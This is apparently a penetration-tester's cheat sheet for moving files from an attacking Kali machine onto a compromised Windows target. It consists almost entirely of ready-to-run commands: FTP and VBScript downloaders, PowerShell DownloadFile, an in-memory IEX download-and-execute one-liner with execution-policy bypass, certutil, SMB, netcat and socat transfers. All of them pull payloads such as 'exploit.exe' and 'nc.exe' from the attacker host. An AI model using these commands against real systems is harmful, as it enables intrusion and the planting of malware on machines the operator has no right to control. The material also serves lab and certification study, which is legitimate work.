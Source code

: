 Kali Machine(Attacking machine)- We need to start the http server to serve the files so that other system can access it.

HTTP Server
```python
python -m SimpleHTTPServer 80
python -m http.server 80
```


TFTP
TFTP can be used to transfer files to/from older Windows OS.

By default installed on : Up to Windows XP and 2003.
By default not installed on : Windows 7, Windows 2008, and newer.

Kali
```bash
apt update && sudo apt install atftp
mkdir /tftp
chown nobody: /tftp
atftpd --daemon --port 69 /tftp
```
Windows
```powershell
tftp -i 192.168.1.2 PUT file1.txt
tftp -i 192.168.1.2 GET file2.txt
```


FTP
The below method can be used to transfer file from Linux to Windows. Similar technique can also be used to transfer file from WIndows to Linux but with a little trick.

Place your file(nc.exe in this case)ftphome directory on target linux
Replace the username/password in below with your FTP username/password.

Linux System(Attacking machine)
```bash
echo open 192.168.1.2 21> file.txt
echo USER username>> file.txt
echo password>> file.txt
echo bin >> file.txt
echo GET nc.exe >> file.txt
echo bye >> file.txt
```
Windows (Target machine)
```powershell
ftp -v -n -s:file.txt
```


Downloads/Transfer file on/to Windows system using scripting language.

VBScript(XP, 2003)

In this first we will echo all these commands in a file wget.vbs
If you are creating this file on windows then it will work fine.
If creating on Linux and then transferring to windows then you may face issue sometime, use unix2dos before you transfer it in this case.
```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Using wget.vbs
```bash
cscript wget.vbs http://192.168.1.2/xyz.txt xyz.txt
```


Powershell(Win 7, 2008 and above)

A – If you have fully interactive Powershell session.

Download file
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')
```
Download and execute without saving on disk
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')
```
B – If there is no interactive Powershell session.

If we don’t have fully interactive shell to launch Powershell we need to create a powershell script and run as a file.
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.2/exploit.exe" >>wget.ps1
echo $file = "exploit1-ouput.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Finally we can call and run the ps file using below
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


SMB
Kali
Use smbserver.py from Impacket.
```python
python smbserver.py ROPNOP /root/yogesh
```
Put any files within /root/yogesh folder (exploit.exe in this case)

Windows
```powershell
copy \192.168.1.2\ROPNOP\exploit.exe .
```


CertUtil
Start python http server on Attacker machine

Run below command on Windows(Target)
```bash
certutil.exe -urlcache -split -f "http://192.168.1.2/exploit.exe"
```




If anyhow you get Netcat, Socat, Wget, Curl on windows then below commands can be used for file transfer.

Netcat
Windows
```bash
nc -nlvp 4444 > outputfile.exe
```
Kali
```bash
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```
Socat
Kali
```bash
socat TCP4-LISTEN:443,fork file:file.txt
```
Windows
```powershell
socat TCP4:192.168.1.2:443 file:file.txt,create
```
Wget
Kali
```python
python -m http.server 80 (On the same directory where file is available)
```
Windows
```powershell
wget http://192.168.1.2/exploit.exe
```
Curl
Kali
```python
python -m http.server 80 (On the same directory where file is available)
```
Windows
```powershell
curl http://192.168.1.2/exploit.exe -o exploit.exe
```
